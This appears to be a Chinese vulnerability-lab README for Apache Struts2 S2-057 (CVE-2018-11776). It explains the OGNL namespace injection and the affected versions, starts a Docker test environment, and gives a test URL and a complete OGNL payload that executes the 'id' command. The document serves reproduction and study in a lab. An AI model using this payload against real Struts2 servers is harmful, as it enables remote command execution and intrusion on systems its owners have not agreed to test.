


# Struts2 S2-057 远程命令执行漏洞（CVE-2018-11776）

当 Struts2 的配置满足以下条件时：

 - alwaysSelectFullNamespace 值为 true
 - action 元素未设置 namespace 属性，或使用了通配符

namespace 将由用户从 uri 传入，并作为 OGNL 表达式计算，最终造成任意命令执行漏洞。

影响版本：小于等于 Struts 2.3.34 与 Struts 2.5.16

漏洞详情：

 - https://cwiki.apache.org/confluence/display/WW/S2-057
 - https://lgtm.com/blog/apache_struts_CVE-2018-11776
 - https://xz.aliyun.com/t/2618
 - https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## 漏洞环境

启动满足条件的 Struts 2.3.34 环境：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080/showcase/`，将可以看到 Struts2 的测试页面。

## 漏洞复现

测试 OGNL 表达式 `${233*233}`：

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```



可见 233*233 的结果已返回在 Location 头中。

使用 [S2-057 原理分析与复现过程（POC）](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg) 中给出的执行任意命令的 OGNL 表达式：

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

可见，id 命令已成功执行：


